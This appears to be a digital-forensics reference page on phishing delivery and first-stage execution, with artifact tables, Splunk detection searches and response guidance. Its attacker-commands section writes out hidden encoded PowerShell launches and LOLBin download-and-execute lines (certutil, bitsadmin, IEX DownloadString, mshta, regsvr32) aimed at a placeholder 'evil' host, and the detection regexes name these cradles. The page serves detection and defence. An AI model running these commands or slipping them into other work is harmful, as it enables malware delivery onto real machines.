

# Phishing Delivery & Initial Execution

<div class="dfir-meta" markdown>
**MITRE ATT&CK:** T1566 (Phishing) + T1204 (User Execution) · **Tactic:** Initial Access / Execution · **Last updated:** 2026-09-17
</div>

!!! abstract "Summary"
    Most intrusions start with a user opening something they shouldn't: a macro-laden Office document, a disguised LNK, an ISO/IMG that bypasses Mark-of-the-Web, or an HTML-smuggled payload. The delivery is social; the **execution** is where forensics begins — a document or archive spawns a script interpreter, which fetches stage two. This page maps that first process chain.

## How the attack works



Modern lures avoid macros (blocked by default from the internet since 2022) and favour **container files** — ISO, IMG, VHD, or a ZIP holding a LNK — because mounting a container strips **Mark-of-the-Web**, so the payload inside runs without the "downloaded from the internet" warning.

## Attacker tooling / commands

```text
# Office macro shelling out
WINWORD.EXE  ->  cmd.exe /c powershell -nop -w hidden -enc <b64>

# LNK inside a ZIP/ISO with a hidden target
target: C:\Windows\System32\cmd.exe /c start /min powershell -enc <b64>
icon:   shell32.dll,1   (looks like a PDF/Doc)

# LOLBin stage-2 fetch
certutil -urlcache -split -f http://evil/x.exe %TEMP%\x.exe
bitsadmin /transfer j http://evil/x.exe %TEMP%\x.exe
powershell IEX(New-Object Net.WebClient).DownloadString('http://evil/a')
mshta http://evil/x.hta
regsvr32 /s /n /u /i:http://evil/x.sct scrobj.dll
```

## Artifacts left behind

| Where | Artifact | What to look for |
|---|---|---|
| Host **Sysmon** | **1** with `ParentImage` = `winword.exe`/`excel.exe`/`outlook.exe`/`acrord32.exe`/`explorer.exe` and `Image` = a script host | The delivery→execution pivot ([WMI/WinRM page](wmi-winrm.md) has the parent list) |
| Host Sysmon | **11** (FileCreate) of the attachment / stage-2 in `\Downloads\`, `\Temp\`, `\AppData\`; **15** (FileCreateStreamHash) = **Mark-of-the-Web** ADS written | Where the file landed and whether it carried MOTW |
| Host | [$MFT `Zone.Identifier`](../windows/mft-usn.md) with `HostUrl`/`ReferrerUrl` | The **download URL** — often the whole delivery infrastructure |
| Host Registry | [Office Trusted Documents `TrustRecords`](../windows/registry-keys.md#files-folders-opened-per-user) | User clicked **Enable Content** on a macro doc — timestamped |
| Host | [Prefetch](../windows/prefetch.md) for `certutil`/`mshta`/`regsvr32`/`powershell` referencing the payload; [Amcache](../windows/amcache.md) hash | Execution + identity of stage-2 |
| Host | [LNK/Jump Lists](../windows/lnk-jumplists.md) if a weaponised LNK; recent-docs for the opened attachment | The lure file |
| Email | `stream:smtp` / `ms:o365:reporting:messagetrace` — sender, subject, attachment name/hash | The delivery message |
| Network | [Zeek `http.log`](../network/zeek/http-log.md) stage-2 download (odd UA, raw-IP host, `x-dosexec` MIME); [`dns.log`](../network/zeek/dns-log.md) the lookup; [`files.log`](../network/zeek/files-log.md) hash of what was fetched | The C2/staging pull |

## Detection

=== "Splunk — document/container spawning a shell"

    ```spl
    index=botsv3 sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=1
    | eval parent=lower(replace(ParentImage,".*\\\\","")), child=lower(replace(Image,".*\\\\",""))
    | where parent IN ("winword.exe","excel.exe","powerpnt.exe","outlook.exe","acrord32.exe","msaccess.exe")
        AND child IN ("cmd.exe","powershell.exe","wscript.exe","cscript.exe","mshta.exe","rundll32.exe","regsvr32.exe","certutil.exe","bitsadmin.exe","curl.exe","msiexec.exe")
    | table _time, host, User, parent, child, CommandLine
    | sort 0 _time
    ```

    Sysmon `1` = process create. Office applications should not spawn script interpreters or download utilities — this parent→child list is the highest-fidelity macro-execution signal. `replace(...,".*\\\\","")` strips paths to bare filenames for the comparison.

=== "Splunk — stage-2 download cradles"

    ```spl
    index=botsv3 sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=1
    | eval cmd=lower(CommandLine)
    | where match(cmd,"certutil.*(urlcache|-f\s+http)|bitsadmin.*transfer.*http|(downloadstring|downloadfile|invoke-webrequest|iwr|net\.webclient)|mshta\s+http|regsvr32.*(scrobj|/i:http)|curl\s+http|wget\s+http")
    | table _time, host, User, Image, ParentImage, cmd
    | sort 0 _time
    ```

    Matches the LOLBin download-cradle command lines. Pair a hit here with the parent from the previous search and you have the full delivery→fetch chain on one host.

=== "Splunk — Mark-of-the-Web download URL"

    ```spl
    index=botsv3 sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventID=15
    | table _time, host, User, TargetFilename, Contents
    | sort 0 _time
    ```

    Sysmon `15` fires when a file gets an alternate data stream — for downloads that's the `Zone.Identifier` (Mark-of-the-Web). `Contents` includes `ZoneId=3` and, on modern Windows, the `HostUrl`/`ReferrerUrl` — the actual source of the file. Container files (ISO/IMG) that *lack* this on their inner payload are the MOTW-bypass tell.

## Response

Preserve the lure and the message: pull the email (sender, subject, headers, attachment hash) from mail logs, and the on-disk attachment with its `Zone.Identifier` URL. Trace the process chain from the Office/container parent through the download cradle to stage two, and hash stage two ([Amcache](../windows/amcache.md)/[files.log](../network/zeek/files-log.md)) for intel and fleet-wide hunting — the same lure usually hit many mailboxes. Block the delivery and staging domains/IPs at egress after collection. Harden: block macros from the internet (default now, enforce it), block child-process creation from Office with **ASR rules**, disable or restrict `mshta`/`certutil`/`regsvr32` where possible, strip or warn on ISO/IMG/container attachments at the gateway, enforce Mark-of-the-Web propagation, and run user-reporting + phishing-simulation programs.

## References

- [MITRE ATT&CK — T1566](https://attack.mitre.org/techniques/T1566/) · [T1204](https://attack.mitre.org/techniques/T1204/)
- [Microsoft — Attack Surface Reduction rules reference](https://learn.microsoft.com/en-us/defender-endpoint/attack-surface-reduction-rules-reference)
- Pages: [PowerShell cradles](powershell-cradles.md) · [MFT/USN — Zone.Identifier](../windows/mft-usn.md) · [Zeek http.log](../network/zeek/http-log.md) · [Security searches](../splunk/security-searches.md)
